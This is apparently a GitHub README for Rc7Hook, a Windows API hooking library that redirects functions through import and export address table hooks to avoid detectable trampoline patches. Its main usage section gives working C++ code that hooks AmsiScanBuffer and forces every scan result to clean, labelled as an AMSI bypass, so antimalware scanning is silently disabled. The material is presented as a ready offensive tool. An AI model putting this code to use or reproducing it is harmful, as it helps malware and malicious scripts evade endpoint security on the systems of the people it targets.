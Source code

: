 
# Rc7Hook

A Patchless Windows API Hooking Library.


## How It Works
Rc7hook combines both [IAT Hooking](https://www.ired.team/offensive-security/code-injection-process-injection/import-adress-table-iat-hooking) and [EAT Hooking](https://www.codereversing.com/archives/598) to completely redirect the target function to the specified hook procedure.

This means there's no need for patching the function with a trampoline, which is more detectable.

## Running The Examples
```
Rc7hook.exe <EXAMPLE>
```
```
Examples:
- MessageBoxHook
- AmsiHook
```

## Usage
### AmsiScanBuffer Hook | Bypassing AMSI
```cpp
typeAmsiScanBuffer orgAmsiScanBuffer;
HRESULT hookAmsiScanBuffer(HAMSICONTEXT amsiContext, PVOID buffer, ULONG length, LPCWSTR contentName, HAMSISESSION amsiSession, AMSI_RESULT* result) {
	HRESULT orgCallResult = orgAmsiScanBuffer(amsiContext, buffer, length, contentName, amsiSession, result);

	(*result) = AMSI_RESULT_CLEAN;

	return orgCallResult;
}

void bypassAmsi() {

	// assuming that amsi.dll is loaded

	Rc7Hook amsiScanBufferHook{ "amsi.dll", "AmsiScanBuffer", hookAmsiScanBuffer, (PVOID*)&orgAmsiScanBuffer };

	if (amsiScanBufferHook.Enable()) {
		printf("[+] Enabled AmsiScanBuffer Hook!\n");
	}
	else {
		printf("[-] Failed to Enable AmsiScanBuffer Hook.\n");
	}

	printf("[*] Press a Key to Unhook.\n");
	getchar();

	if (amsiScanBufferHook.Disable()) {
		printf("[+] Disabled AmsiScanBuffer Hook!\n");
	}
	else {
		printf("[+] Failed to disable AmsiScanBuffer Hook.\n");
	}
}
```

## Issues
- x86 build's unhooking produces ``ERROR_ACCESS_VIOLATION``
## Credits
[EAT Hooking Article](https://www.codereversing.com/archives/598) by [Codereversing](https://www.codereversing.com/archives/598).
